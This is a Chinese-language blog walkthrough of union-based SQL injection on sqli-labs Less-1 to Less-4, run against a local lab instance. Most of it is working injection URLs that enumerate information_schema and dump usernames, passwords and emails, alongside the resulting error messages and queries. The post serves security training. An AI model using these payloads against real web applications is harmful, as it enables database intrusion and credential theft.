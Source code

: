 ```yaml
---
layout: post
title:  "0x01 联合查询注入"
subtitle: "sqli-labs"
date:   2020-03-24 16：43
categories: [pentest]
---
```

mysql注入语句

联合查询

> 1. 单引号判断
>
> 2. 查询列数
>
>    ```sql
>      ?id=1' oder by num %23
>    ```
>
> 3. 查询返回列
>
>    ```mysql
>      ?id=-1' union select 1,2,3 %23
>    ```
>
> 4. 查询数据库
>
>    ```mysql
>      ?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata%23
>    ```
>
> 5. 查询表名
>
>    ```mysql
>      ?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'%23
>    ```
>
> 6. 查询列名
>
>    ```mysql
>      ?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'%23
>    ```
>
> 7. 查询数据
>
>    ```mysql
>      ?id=-1' union select 1,username,password from users where id =2%23
>    ```

## less1

url

```u
http://127.0.0.1:9999/Less-1/?id=1'
```

报错信息

```mysql
 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1 
```

对此猜测数据库查询语句为**错误**

```mysql
select username,password from users where id = $id limit 0,1 
```

实际的源码为

```mysql
SELECT * FROM users WHERE id='$id' LIMIT 0,1
```

这里应该是字符型注入，报错信息中有效信息应该为

``` html
'1'' LIMIT 0,1
可以发现是'1'多了一个'导致报错的
```

那么我们输入payload后在数据库中执行的语句为

```mysql
SELECT * FROM users WHERE id='-1' union select 1,username,password from users where id =2#' LIMIT 0,1
```

## less2

url

```
http://127.0.0.1:9999/Less-2/?id=1%27
```

报错信息

```mysql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1
```

其中有效的报错信息就是`' LIMIT 0,1`,那么可以判断这是数字型注入，判断数据库查询语句为

```msyql
select * from users where id = $id limit 0,1
```

输入payload后在数据库中执行的语句为

```mysql
select * from users where id = -1 union select 1,id,email_id from emails where id = 1 #limit 0,1
```

对其进行手注

```mysql
http://127.0.0.1:9999/Less-2/?id=1 order by 3 %23
http://127.0.0.1:9999/Less-2/?id=-1 union select 1,2,3 %23
http://127.0.0.1:9999/Less-2/?id=-1 union select 1,2,group_concat(schema_name) from information_schema.schemata %23
http://127.0.0.1:9999/Less-2/?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema ="security"
http://127.0.0.1:9999/Less-2/?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'%23
http://127.0.0.1:9999/Less-2/?id=-1 union select 1,id,email_id from emails%23
PS:查询其他表时要保持查询列数一致
```

## less3

url

```
http://127.0.0.1:9999/Less-3/?id=1%27
```

报错信息

```msyql
 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1 
```

有用信息为`'1'') LIMIT 0,1`,多了个括号，猜测源码为

```mysql
select * from users where id = ('&id') LIMIT 0,1
```

输入payload后在数据库中执行的语句为

```mysql
select * from users where id = ('-1') union select 1,id,email_id from emails where id =1#') LIMIT 0,1
```

对其进行手注

```mysql
http://127.0.0.1:9999/Less-3/?id=-1%27) order by 3%23
http://127.0.0.1:9999/Less-3/?id=-1%27) union select 1,2,3%23
http://127.0.0.1:9999/Less-3/?id=-1%27) union select 1,2,group_concat(schema_name) from information_schema.schemata%23
http://127.0.0.1:9999/Less-3/?id=-1%27) union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'%23
http://127.0.0.1:9999/Less-3/?id=-1%27) union select 1,2,group_concat(column_name) from information_schema.columns where table_name='emails'%23
http://127.0.0.1:9999/Less-3/?id=-1%27) union select 1,id,email_id from emails where id =1 %23
```

## less4

url

```msyql
http://127.0.0.1:9999/Less-4/?id=1'
```

单引号未报错，尝试双引号报错

```mysql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"") LIMIT 0,1' at line 1
```

有用信息为`"1"") LIMIT 0,1`，猜测数据库中查询语句为

```mysql
select * from users where id = ("$id") LIMIT 0,1
```

输入payload后数据库执行语句为

```mysql
select * from users where id =("-1") union select 1,id,email_id from emails where id =1 #") LIMIT 0,1
```

对其进行手注

```mysql
http://127.0.0.1:9999/Less-4/?id=-1") union select 1,2,group_concat(schema_name) from information_schema.schemata%23
http://127.0.0.1:9999/Less-4/?id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'%23
http://127.0.0.1:9999/Less-4/?id=-1") union select 1,2,group_concat(column_name) from information_schema.columns where table_name='emails'%23
http://127.0.0.1:9999/Less-4/?id=-1") union select 1,id,email_id from emails where id =1%23
```

